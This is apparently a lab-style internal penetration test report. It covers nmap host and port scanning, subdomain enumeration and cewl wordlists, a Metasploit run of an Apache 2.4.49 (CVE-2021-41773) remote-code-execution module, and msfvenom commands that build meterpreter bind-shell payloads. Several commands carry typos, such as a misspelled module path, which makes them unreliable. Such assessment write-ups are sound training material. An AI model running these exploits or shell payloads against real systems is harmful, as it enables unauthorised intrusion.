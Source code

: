 #  Internal Penetration Test

Submitted by: Israel Barnabas

## Internal Network Penetration Test  
**For**: CYBERLAB  
**Barnabas Security**  
**2024**

---

## Table of Contents
1. [Executive Summary](#executive-summary)
2. [Host Discovery](#Host Discovery)
3. [Service Discovery and Port Scanning](#Service Discovery and Port Scanning)
4. [Vulnerability Scanning](#Vulnerability Scanning)
5. [Web-based Attack surfaces](#Web-based Attack surfaces)
6. [CVSS v3.0 Reference Table](#cvss-v30-reference-table)

---

## Executive Summary
Barnabas Security performed an internal penetration test of in-scope items provided by CYBERLAB from September 13th, 2024, through September 15th, 2024. This report details the process find vulnerability with iin the system.



---
## Host Discovery
Host discovery is the process of identifying active devices (hosts) on a network.By identifying which hosts are live and reachable, you can determine the targets for further probing, such as port scanning and vulnerability analysis.

The internal network to be exploited are `10.10.10.0/24` and domain `https://virtualinfosecafrica.com`


A **ping scan** is executed to test the reachablility of hosts on the ip address i.e `ping 10.10.10.0/24` or `ping virtualinfosecafrica.com`.

Nmap is a tool which can be use for host discovery. Ther a a number of command that are used together in with nmap to yield the desired output such as

`-sL`: List Scan - simply list targets to scan

  `-sn`: Ping Scan - disable port scan eg(`nmap -sn 10.10.10.0/24`)

  `-Pn`: Treat all hosts as online -- skip host discovery

  Using the command `nmap -sL 10.10.10.0/24 > targetlist.txt`
 list all the ip address to be scanned. With a subnet mask of **24**, 256 address are to be produced.

 ![Screenshot_2024-09-15_06_23_33](https://github.com/user-attachments/assets/40a9554b-b69e-400e-9338-b51900369ed7)

 * After running the scan, it is assummed that 15 hosts are up then next step is to filter out of you list of ip address then saved in a file. 

 `$ nmap -sn -iL targetlist.txt | grep -i "nmap scan report" > onlinehost.txt`
 
 ![Screenshot_2024-09-15_21_26_19](https://github.com/user-attachments/assets/3f8036bb-01e0-4283-bc1b-21e01a78791f)

To obtain subdomain enumeration, the `aiodnsbrute`
 tool is used. From the results shown below, a number of subdomain were optained with theire respective ip address.

![Screenshot_2024-09-15_08_45_36](https://github.com/user-attachments/assets/4db48e08-70bc-497a-a0c4-048b045d9842)

---

## Service Discovery and Port Scanning

Service discovery and port scanning are essential steps in network security and penetration testing. They help to identify the services running on a network and the open ports that could potentially be exploited by attackers.

To do servive and port scan, the command `sV` is used. This command **-sV** probe open ports to determine service/version info.

![Screenshot_2024-09-15_09_31_08](https://github.com/user-attachments/assets/999c74c7-6a90-4ffe-a743-8c8f63845e01)

From the output obtained, the various ports and service versions associated with the open ports can be checked for any exploits. The service version `Apache httpd 2.4.49` has been found to have some vulnerabilities. It has a cve number **`2021-41773`**


---

## Vulnerability Scanning

A vulnerability scan is an automated process of identifying security weaknesses in a network, system, or application. It involves using specialized software tools  such as metasploit, nmap, theharvester and so to scan the target for known vulnerabilities, such as outdated software, misconfigurations, open ports, and security flaws. Vulnerability scans provide an essential step in securing systems by identifying and assessing potential points of exploitation that attackers could use to compromise the network.

Using  METASPLOIT for your vulnerability scan;

* First open metasploit with the command `msfconsole`
* When opened, input this command `search cve:2021-41773` (this is the cve for the service version stated above in our service scan)

![Screenshot_2024-09-15_17_35_25](https://github.com/user-attachments/assets/6f050e8d-6e2f-4964-a9eb-982d2b6ea8cd)

* Look for an appropriate module. If available, note the module's path such as `expliot/multi/http/apache_normaalize_path_rce`
* load expliot: `use expliot/multi/http/apache_normaalize_path_rce`
* Set the target host (RHOSTS=10.10.10.20) and target port (RPORT=80), among other options.
* Execute the Exploit: `run`

![Screenshot_2024-09-15_17_41_28](https://github.com/user-attachments/assets/0106cee0-7299-43eb-913d-7ba8f323edab)

To create a custom word,  `cewl` is used which is used to gather potential usernames, passwords, and other keywords for use in dictionary attacks or social engineering. By crawling through the specified website, CeWL collects words that might be relevant to the target organization, allowing attackers to create more targeted wordlists.

![Screenshot_2024-09-15_23_06_16](https://github.com/user-attachments/assets/299fcea1-6552-45c4-911c-0a8c4d9cbffb)

---

## Web-based Attack surfaces
Here potential entry points and vulnerabilities on a web application, website, or web server can exploit.
`eyewitness` is the main tool of focus for this stage.

![Screenshot_2024-09-15_19_07_16](https://github.com/user-attachments/assets/df2faeb0-d6f4-4629-b61c-e57ba8409a0e)

This command allows you to capture the web server.

![Screenshot_2024-09-15_19_12_48](https://github.com/user-attachments/assets/9b87f560-bd4c-4314-8cc7-4a5a25056c34)

file should include the non-standaised ports.

Generating Payloads with Msfvenom


Host 10.10.10.55 (Apache Tomcat)


To generate a payload that triggers a TCP bind shell on execution, use:

`msfvenom -p java/meterpreter/bind_tcp LHOST=10.10. 10.55 LPORT=4444 -f war -o shell_bind.war`

![Screenshot_2024-09-15_19_32_46](https://github.com/user-attachments/assets/a225d706-838e-4bfe-8334-fc1f9f499036)


To generate a base64-encoded payload that executes a TCP bind shell, use:


`msfvenom -p python/meterpreter/bind_tcp LHOST=10.10.10.30 LPORT=4444 -e base64`

![Screenshot_2024-09-15_19_37_55](https://github.com/user-attachments/assets/63ebe9cf-a5a6-4110-bbdb-dcc26553734a)








---

## CVSS v3.0 Reference Table
| Qualitative Rating | CVSS Score |
| ------------------ | ---------- |
| None/Informational | N/A        |
| Low                | 0.1 – 3.9  |
| Medium             | 4.0 – 6.9  |
| High               | 7.0 – 8.9  |
| Critical           | 9.0 – 10.0 |

---






